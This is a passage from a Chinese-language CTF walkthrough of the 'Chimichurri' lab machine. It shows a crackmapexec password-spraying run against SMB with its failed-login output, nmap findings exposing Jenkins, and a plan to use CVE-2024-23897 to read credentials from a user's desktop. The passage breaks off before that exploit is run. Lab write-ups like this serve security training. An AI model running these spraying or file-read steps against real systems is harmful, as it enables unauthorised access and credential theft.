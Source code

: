 ```bash
Hacker
invitado
administrador
HACKER

```
尝试利用这些用户的名字作为密码进行爆破

## 7. 密码喷涂
```bash
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# crackmapexec smb chimichurri.thl -u kerber_brute_users.txt -p kerber_brute_users.txt --no-bruteforce --continue-on-success
SMB         chimichurri.thl 445    CHIMICHURRI      [*] Windows 10 / Server 2016 Build 14393 x64 (name:CHIMICHURRI) (domain:chimichurri.thl) (signing:True) (SMBv1:False)
SMB         chimichurri.thl 445    CHIMICHURRI      [-] chimichurri.thl\hacker:hacker STATUS_LOGON_FAILURE
SMB         chimichurri.thl 445    CHIMICHURRI      [-] chimichurri.thl\Hacker:Hacker STATUS_LOGON_FAILURE
SMB         chimichurri.thl 445    CHIMICHURRI      [-] chimichurri.thl\invitado:invitado STATUS_LOGON_FAILURE
SMB         chimichurri.thl 445    CHIMICHURRI      [-] chimichurri.thl\administrador:administrador STATUS_LOGON_FAILURE
SMB         chimichurri.thl 445    CHIMICHURRI      [-] chimichurri.thl\HACKER:HACKER STATUS_LOGON_FAILURE
```
看来不存在将用户名作为密码的用户
## 8. Jenkins利用
观察nmap的结果可以发现靶机是开放了**Jenkins**的
```bash
6969/tcp open  http          Jetty 10.0.11
|_http-title: Panel de control [Jenkins]
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(10.0.11)
MAC Address: 08:00:27:B8:51:4D (Oracle VirtualBox virtual NIC)
Service Info: Host: CHIMICHURRI; OS: Windows; CPE: cpe:/o:microsoft:windows
```
![Pasted image 20241203133056](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203133056.png)
jenkins是有很多漏洞的 
先去找一个最新的试试
https://www.exploit-db.com/
![Pasted image 20241203134231](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241203134231.png)

试试这个LFI （[[20-网安/28-CVE复现/CVE-2024-23897\|CVE-2024-23897]]）

之前的 `credenciales.txt` 提示我们在 `hacker` 用户的桌面有一个凭证
```bash\
┌──(root㉿kali)-[/home/kali/thl/Chimichurri]
└─# cat credenciales.txt
Todo es mejor en con el usuario hacker, en su escritorio estan sus claves de acceso como perico     
```
> 这句西班牙语的意思是：  
“所有事情都会更好，因为有黑客用户，他的桌子上有他的访问密钥，就像鹦鹉一样。”
其中“como perico”是个比喻，可能意味着“很显眼”或“随意放置”，暗示这些密钥没有被妥善保护。

